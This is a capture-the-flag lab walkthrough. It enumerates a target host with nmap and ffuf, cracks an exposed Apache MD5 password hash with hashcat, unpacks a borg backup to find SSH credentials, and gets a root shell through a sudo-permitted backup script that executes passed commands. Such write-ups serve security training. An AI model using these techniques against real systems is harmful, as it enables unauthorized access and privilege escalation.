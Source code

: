 initial network enum
```shell
nmap -sS 10.10.220.28 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-29 11:07 IST
Nmap scan report for 10.10.220.28
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
two ports found
- HTTP
- SSH

noting else so lets try directory busting 
```bash
ffuf -u http://10.10.220.28/FUZZ -w /usr/share/wordlists/dirb/big.txt
```

got some pages / endpoints
- admin
- etc

admin page has a archive that we can download, extracted it and has some files
in /etc endpoint we found some of the config file and a encrypte password
```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

further analysing the archive got that it is a backup of some kind and the  readme file it had a link to some kind of program borgbackup 
lets focus on decryption of the password, we can use hashcat to know the encryption
```bash
echo '$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.' > password
```
```bash
hashcat --show password
```
and we get the type is MD5 now we can crack it using hashcat itself
```bash
hashcat -m 1600 password /usr/share/wordlists/rockyou.txt
```
hashcat output:
```bash
$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward           
                                                          
Session..........: hashcat
Status...........: Cracked
```

boom we got the password "squidward"
as we saw that there is a backup present we need to install needed libraries, this backup was made by borg-backup, so need need to install it we can see the info of the backup
```bash
borg info .
```
we need to enter paraphrase and we have found it i guess - squidward
we can list the archives present in the backup
```bash
borg list .
```

we need to extract it we can do it by the following 
```bash
borg extract ./final_archive::music_archive
```

we got a home directory file
searching for flag or some clue we got a secret.txt in desktop but nothing useful but in Documents there is a note.txt which has ssh username and pasword i guess
```shell
alex:S3cretP@s3
```
ans yes it is we go ssh into the system of alex and found the user.txt, completed another task,
now lets move to privilege escalation
seeing what alex can do with his permissions using
```shell
sudo -l
```
we get that he can run a backup.sh file present in etc with his privileges, analyzing the code we got that we can pass commads to its input and they will get executed, we can now use following payload to spawn privilaged bash shell here
```shell
sudo ./backup.sh -c "bash"
```
boom we are root now, going to root directory we get the root.txt flag

we have solve the lab successfully yay!!!!

